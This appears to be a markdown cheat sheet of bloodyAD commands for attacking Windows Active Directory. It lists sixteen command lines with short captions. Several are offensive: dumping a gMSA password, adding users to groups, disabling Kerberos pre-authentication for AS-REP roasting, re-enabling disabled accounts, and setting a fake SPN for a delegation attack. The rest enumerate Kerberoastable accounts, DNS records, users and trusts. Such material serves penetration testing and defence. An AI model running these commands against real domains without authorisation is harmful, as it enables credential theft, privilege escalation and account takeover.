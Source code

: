# BloodyAD

## Link: https://github.com/CravateRouge/bloodyAD

## Guide: https://github.com/CravateRouge/bloodyAD/wiki/User-Guide

### Usage:

#### 1)

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k get object 'GMSA01$' --attr msDS-ManagedPassword

(Dump GMSA Password)

#### 2) 

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k add groupMember "TARGET_GROUP" "USER_TO_ADD"

(Add a user to a group)

#### 3) 

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k add uac TARGET_USER -f DONT_REQ_PREAUTH

(Disable pre-authentication on a user to do ASREPRoasting attack)

#### 4)

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k remove uac TARGET_USER -f ACCOUNTDISABLE

(Enable accounts)

#### 5) 

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k set object "SVC_ACCOUNT" servicePrincipalName  -v "cifs/fake" 

(Set a fake SPN for an account to do Constrained Delegation attack)

#### 6)

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get search --filter '(&(samAccountType=805306368)(servicePrincipalName=*))' --attr sAMAccountName | grep sAMAccountName | cut -d ' ' -f 2

(Get Kerberoastable accounts)

#### 7) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName

(Get account that do not require Kerberos pre-authentication (AS-REP))

#### 8)

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get dnsDump | sed -n '/[^\n]*\*/,/^$/p'

(Check if ADIDNS has a wildcard entry (if not, check ADIDNS spoofing))

#### 9) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get dnsDump

(Get all DNS Records from AD)

#### 10)

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get object 'DC=DOMAIN,DC=COM' --attr ms-DS-MachineAccountQuota

(Get Machine Account Quota (MAQ) to do an RBCD attack if the num is 10)

#### 11) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get children --otype useronly

(Get all users)

#### 12) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get children --otype computer

(Get all computers)

#### 13) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get children --otype container

(Get all containers)

#### 14) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get children --otype trustedDomain

(Get all trusts)

#### 15) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get object 'DC=DOMAIN,DC=COM' --attr minPwdLength

(Get min Password Length)

#### 16) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get object 'DC=DOMAIN,DC=COM' --attr msDS-Behavior-Version

(Get AD Forest level)
